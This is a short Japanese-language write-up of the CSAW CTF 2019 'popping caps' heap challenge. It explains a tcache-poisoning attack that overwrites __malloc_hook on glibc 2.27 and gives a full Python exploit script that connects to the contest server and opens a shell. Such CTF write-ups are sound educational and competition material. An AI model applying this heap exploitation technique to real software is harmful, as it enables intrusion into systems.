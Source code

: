 # [pwn 200pts] popping caps - CSAW CTF Qualification 2019
64ビットバイナリで、RELRO以外有効です。
```
$ checksec -f popping_caps
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
No RELRO        Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   80 Symbols     Yes      0               6       popping_caps
```
libcは2.27でmallocやfree, writeが自由にできます。freeするとポインタにはNULLが入りますが、double free用の別のポインタは残ったままです。また、開始時にsystem関数のアドレスが渡されます。一見簡単ですが、操作は全部で7回までしかできません。
```
malloc-->free-->free-->malloc-->write-->malloc-->malloc-->write
```
で任意のアドレスの値を書き換えられるので、1回足りません。終了時にmallocが呼ばれるので、`__malloc_hook`を書き換えれば良いでしょう。
また、freeする際は今持っているアドレスから好きなオフセットを足した場所をfreeできます。
tcacheの管理領域はheapの先頭にあるので、負のオフセットを渡してここをいじれば良さそうです。0x3b0〜0x3c0のサイズの領域をfreeするとカウンタが上がるのでサイズ0x10〜0x20のリンクの直前に0x100ができます。これをチャンクサイズとして`malloc(0xa8)`などすればtcacheのリンクを直接変更できます。

```python
from ptrlib import *

def malloc(size):
    sock.sendlineafter(": \n", "1")
    sock.sendlineafter(": \n", str(size))
    return

def free(ofs):
    sock.sendlineafter(": \n", "2")
    sock.sendlineafter(": \n", str(ofs))
    return

def write(data):
    sock.sendlineafter(": \n", "3")
    sock.sendafter(": \n", data)
    return

libc = ELF("./libc.so.6")
#sock = Process("./popping_caps")
sock = Socket("pwn.chal.csaw.io", 1001)

one_gadget = 0x10a38c

# leak libc
sock.recvuntil("system ")
addr_system = int(sock.recvline(), 16)
libc_base = addr_system - libc.symbol("system")
logger.info("libc base = " + hex(libc_base))

malloc(0x3a8)
free(0)
free(-0x210)

malloc(0xf8)
write(p64(libc_base + libc.symbol("__malloc_hook")))

malloc(0x18)
write(p64(libc_base + one_gadget))

sock.interactive()
```

# 感想
珍しいタイプの問題ですね。

